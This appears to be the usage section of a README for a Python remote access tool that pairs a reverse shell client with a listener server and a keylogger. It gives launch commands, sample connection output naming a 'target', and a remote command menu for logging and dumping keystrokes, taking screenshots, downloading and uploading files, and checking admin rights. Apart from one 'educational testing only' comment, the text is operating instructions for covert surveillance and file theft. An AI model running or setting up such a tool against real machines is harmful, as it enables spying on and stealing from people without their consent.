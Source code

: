 ```python
#!/usr/bin/env python3
import keylogger

# Start keylogger (educational testing only)
keylogger.start()
```

### Server Setup (Listener)

```bash
# Terminal 1: Start the server
python3 server.py

# Output:
# [+] Listening For Incoming Connections on 127.0.0.1:54321...
# [+] Target Connected From: ('192.168.1.100', 45678)
```

### Client Connection (Target)

```bash
# Terminal 2: Connect client to server
python3 reverse_shell.py

# Output:
# [*] Attempting to connect to 127.0.0.1:54321
# [+] Successfully connected to 127.0.0.1:54321
```

### Available Commands

Once connected, use these commands in the server terminal:

```bash
* Shell#~192.168.1.100: help                # Show all available commands
* Shell#~192.168.1.100: keylog_start        # Begin keystroke logging
* Shell#~192.168.1.100: keylog_dump         # Display captured keystrokes
* Shell#~192.168.1.100: screenshot          # Capture screen
* Shell#~192.168.1.100: download file.txt   # Download file from target
* Shell#~192.168.1.100: upload file.txt     # Upload file to target
* Shell#~192.168.1.100: check               # Check admin privileges
* Shell#~192.168.1.100: q                   # Quit session
```

### Configuration Options

Edit `.env` file for custom settings:

```env
# Server Configuration
SERVER_HOST=0.0.0.0          # Bind to all interfaces
SERVER_PORT=54321            # Custom port

# Connection Settings  
MAX_CONNECTIONS=5            # Maximum concurrent connections

# File Settings
SCREENSHOT_PREFIX=screenshot # Screenshot filename prefix
```

---